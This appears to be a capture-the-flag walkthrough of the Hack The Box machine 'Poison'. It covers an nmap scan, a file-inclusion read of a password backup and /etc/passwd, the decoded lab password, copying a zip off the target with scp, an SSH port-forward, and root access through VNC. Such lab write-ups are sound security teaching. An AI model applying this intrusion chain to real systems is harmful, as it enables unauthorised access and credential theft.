


# Index
1. [Enumeration](#enumeration)
	<br>
	1.1 [Nmap](#nmap)
	</br>
	1.2	[Web Discovery](#webdiscovery)
	
2. [Privesc](#privesc)

#### Tags
<details markdown='1'>
<summary>Click to get a hint</summary> 
<ul>
	<li>LFI</li>
	<li>Password reuse</li>
	<li>Port forwarding</li>
	<li>VNC</li>
</ul>
</details>

### Enumeration
**IP Address** 10.10.10.84
#### Nmap
First step, as in any other machine, is running an Nmap.
I'm used to running in first place *Nmap -p- {ip}* so it does a scan through all 65535 ports of the machine.
```shell
nmap -p- 10.10.10.84                                   

Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-14 11:32 EDT
Nmap scan report for 10.10.10.84
Host is up (0.051s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 344.93 seconds
```
Once I know there is only two open ports, I like to run a more precise scan only in these ports:

#### WebDiscovery
As the port 80 is open, the first thing to do is visiting the webpage


In this webpage we are able to run some php files. The *listfiles.php* gets all my attention, so let's run it and observe the result.


To my surprise, we can observe a suspicious file called *pwdbackup.txt*. We can also observe that the file route is included in the URL.
First thing that comes to my mind is to try and get the *pwdbackup.txt* including it in the URL.


We get a base64 encoded password. After decoding it 13 times ([Cyberchef](https://gchq.github.io/CyberChef/) may be useful for this) we obtain the password ```Charix!2#4%6&8(0 ``` 

Second thing that comes to me is trying to get the */etc/passwd* file via [LFI](https://cobalt.io/blog/a-pentesters-guide-to-file-inclusion)



So, once we have a user (charix) an a password, it's time to try an ssh connection.

Finally, we are able to get the *user*:



### Privesc

After running *ls* at Charix's *home*, a file called *secret.zip* is discovered. Such file is a password protected file. So, I download it to local via scp:
```bash
scp charix@10.10.10.84:/home/charix/secret.zip .
```
After having this file in my local machine, the first password to try is the one we got before. With this, it is possible to extract the file, but it's not possible to read the content:


So, back at the *poison* machine, after some try and error with different scripts such as [LinPeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) or [suid3num.py](https://github.com/Anon-Exploiter/SUID3NUM), I got a closer look to the running procceses.

The one that really caught my eye is the following *vnc* proccess running as root:

```shell
charix@Poison:~ % ps -aux
USER   PID  %CPU %MEM    VSZ   RSS TT  STAT STARTED     TIME COMMAND
root   529   0.0  0.9  23620  8872 v0- I    23:03    0:00.02 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -g
root   540   0.0  0.7  67220  7064 v0- I    23:03    0:00.02 xterm -geometry 80x24+10+10 -ls -title X Desktop
```
VNC is kind of an RDP for Linux systems. It usually runs on ports 5801 and 5901.
It can be checked with *netstat -an*:


To get a closer look to whats running in that port, I decided to run netcat:
```shell
charix@Poison:~ % nc 127.0.0.1 5901
RFB 003.008
```

By the "RFB" we are able to identify that VNC is running.
As vncviewer doesn´t exist in the poison machine, the option I had left is to perform an ssh tunnel, so the port 5901 would run in my machine.

```bash
ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84
```
When the ssh is performed, is it possible to check if it's working by running *netstat -an* in the attacking machine. If it's running, a port 5901 should appear LISTENING.

Once that's working, its time to try and connect to the vncviewer, but it asks for a password:

```shell
vncviewer 127.0.0.1:5901                 
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Password: 
Authentication failed
```

After reviewing the manual for vncviewer, I noticed that it is possible to indicate a file as a password. So I remembered we have a *secret* file that hasn´t been used yet.
After performing the following command:

```bash
vncviewer -passwd secret 127.0.0.1:5901  
```

Access as root is granted to a graphical interface that has an opened shell:


Please, feel free to [contact](https://twitter.com/sergioframi)  me if you want to ask or share anything about this machine. Thanks a lot! 
